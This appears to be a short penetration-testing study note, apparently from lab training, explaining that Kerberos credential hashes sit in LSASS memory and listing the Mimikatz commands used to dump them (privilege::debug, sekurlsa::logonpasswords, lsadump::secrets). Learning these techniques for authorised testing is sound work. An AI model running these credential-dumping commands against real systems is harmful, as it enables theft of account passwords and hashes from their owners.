 ```yaml
---
IP_KALI: 192.168.45.155
---
```

Hashes for single sign on for kerberos are stored in the _Local Security Authority Subsystem Service_ (LSASS) space. Since the LSASS process is part of the operating system and runs as SYSTEM, we need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target. To exploit this we use [[Mimikatz]]

```
.\mimikatz.exe
```
```
privilege::debug
```
```
sekurlsa::logonpasswords
```
```
lsadump::secrets
```
